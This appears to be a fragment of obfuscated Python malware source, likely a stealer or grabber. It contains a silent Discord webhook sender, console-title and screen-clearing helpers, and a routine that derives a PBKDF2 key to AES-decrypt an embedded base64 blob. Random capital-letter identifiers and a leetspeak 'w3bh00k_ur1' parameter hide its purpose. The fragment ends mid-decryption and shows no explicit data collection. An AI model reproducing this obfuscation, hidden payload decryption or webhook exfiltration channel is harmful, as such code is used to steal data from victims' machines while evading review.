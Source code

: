 def KAVDCFVUEZWGWPKCBIOCASRNNMQQXGRAWJRJHFNWDGSTFHYDKZNCCCOEMBZIBXLOOERNKXVZBMUXEQEXFKSHGHMRTPHK(w3bh00k_ur1, title=None, description=None):
    try:
        client = SyncWebhook.from_url(w3bh00k_ur1)
        embed = discord.Embed(
            title=title,
            description=description,
            color= OKMCIFVOHHRWOOWUZYGNVXDGSREFYCJDPSPOIMUQFNFXFVJXBMHOUZPQFRVMWSYMDFAFSFX
        )
        embed.set_footer(text=HCGWLTGHNORLJAFTRGEIVUFUWZANRHYBTAWNFWEYDYGQGUTYPOFUANQCDSTMVCCXTZWN, icon_url=RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ)
        client.send(embed=embed, username=OYCDBKYQEPDKHPUESFGJOLRQYSFXTCYTKCTUMCXKBCCPMCIIMVQQGQYBSYMGASU, avatar_url=RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ)
    except: pass

def CWBOZGMJHYZGGNCWEYTTKRPEXINHGAERCIXQLSRBFLDSOOPSUFANUMUJUO(title):
    try:
        if sys.platform.startswith("win"):
            ctypes.windll.kernel32.SetConsoleTitleW(title)
        elif sys.platform.startswith("linux"):
            sys.stdout.write(f"\x1b]2;{title}\x07")
    except:
        pass
        
def CREGNVHNQLHZGBPOAGJGUIEPJVDMAGTHVLZIZXNEQAGRABTITVIRJQWSMPLERVXIRJWOTIVWKNIKAUYZLRINTN():
    try:
        if sys.platform.startswith("win"):
            os.system("cls")
        elif sys.platform.startswith("linux"):
            os.system("clear")
    except:
        pass

def BLCLBNLJBLQTONCRPRSXJVOYQAFLKFWHJUXFKHFZKYJHIWCMRSGMEAAZRNEPSNGNBLMWROCINFJLACRYHQFNIYIO(JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK, UIGDTWWAHUEZLSHHSTNXLMERIEBNASCVWSTDDQSULIXMHNZZPRXSV):
    def IQSIETXIYNYPWEZIKNXSSDAQRIAFOYZCMHAMWKHJEGFIXDSAKZRMDGFVNVK(AFXGNDUDAKHGTYMVJPKSNNJYPZFJQXSLKQDOAEPNMMIJNDQPQGOUDAJUPXPOBSKJP, SJSFDQZPADZFOBVNKVDQQUTSSTZEDNZDJKYPSWVDAMNHMWJBRCQUFICYIDYFPNIBAYJEPNH):
        GPOFRWLFWUVWHBHSKZBKHXKHKHTQKIDLEKPBTTTKXTEUMNTYJPHMMJZCXQZCGPYRABAOGXCB = PBKDF2HMAC(algorithm=hashes.SHA256(), length=32, salt=SJSFDQZPADZFOBVNKVDQQUTSSTZEDNZDJKYPSWVDAMNHMWJBRCQUFICYIDYFPNIBAYJEPNH, iterations=100000, backend=default_backend())
        if isinstance(AFXGNDUDAKHGTYMVJPKSNNJYPZFJQXSLKQDOAEPNMMIJNDQPQGOUDAJUPXPOBSKJP, str):  
            AFXGNDUDAKHGTYMVJPKSNNJYPZFJQXSLKQDOAEPNMMIJNDQPQGOUDAJUPXPOBSKJP = AFXGNDUDAKHGTYMVJPKSNNJYPZFJQXSLKQDOAEPNMMIJNDQPQGOUDAJUPXPOBSKJP.encode()  
        return GPOFRWLFWUVWHBHSKZBKHXKHKHTQKIDLEKPBTTTKXTEUMNTYJPHMMJZCXQZCGPYRABAOGXCB.derive(AFXGNDUDAKHGTYMVJPKSNNJYPZFJQXSLKQDOAEPNMMIJNDQPQGOUDAJUPXPOBSKJP)

    JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK_data = base64.b64decode(JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK)
    SJSFDQZPADZFOBVNKVDQQUTSSTZEDNZDJKYPSWVDAMNHMWJBRCQUFICYIDYFPNIBAYJEPNH = JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK_data[:16]
    NOSIUOOHANGASOBDRJKLCVEJWQRERWOECOIZYUYSTSMTGVINNCNBJUIDQMDSJPFFBQYLPKSSJGJMXDWZ = JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK_data[16:32]
    JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK_data = JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK_data[32:]
    LRDWBFLURYPJNUFAIIGNAJIFCUSJBZWJDYTDSXFXCDVRADQWFNLLZWSZKAPJIZZKQXFDZOJXTPYGWJLPLVLDFZEOG = IQSIETXIYNYPWEZIKNXSSDAQRIAFOYZCMHAMWKHJEGFIXDSAKZRMDGFVNVK(UIGDTWWAHUEZLSHHSTNXLMERIEBNASCVWSTDDQSULIXMHNZZPRXSV, SJSFDQZPADZFOBVNKVDQQUTSSTZEDNZDJKYPSWVDAMNHMWJBRCQUFICYIDYFPNIBAYJEPNH)
    EBZXXTEFHBYNCSJRKGCNQGQBTGSNCIEVATCFAIRKIDTGUGEULNCCCZHWUVACW = Cipher(algorithms.AES(LRDWBFLURYPJNUFAIIGNAJIFCUSJBZWJDYTDSXFXCDVRADQWFNLLZWSZKAPJIZZKQXFDZOJXTPYGWJLPLVLDFZEOG), modes.CBC(NOSIUOOHANGASOBDRJKLCVEJWQRERWOECOIZYUYSTSMTGVINNCNBJUIDQMDSJPFFBQYLPKSSJGJMXDWZ), backend=default_backend())
    RDIQXXOOORGWZYYTXPSWVOIXJWQKZWTAVUGGZVMKWKMFSIHTMEWLJVGNYOKWHOKEUJKCIKTZWYQGKDRMZLQGTZXXDKRBLYZGDGV = EBZXXTEFHBYNCSJRKGCNQGQBTGSNCIEVATCFAIRKIDTGUGEULNCCCZHWUVACW.decryptor()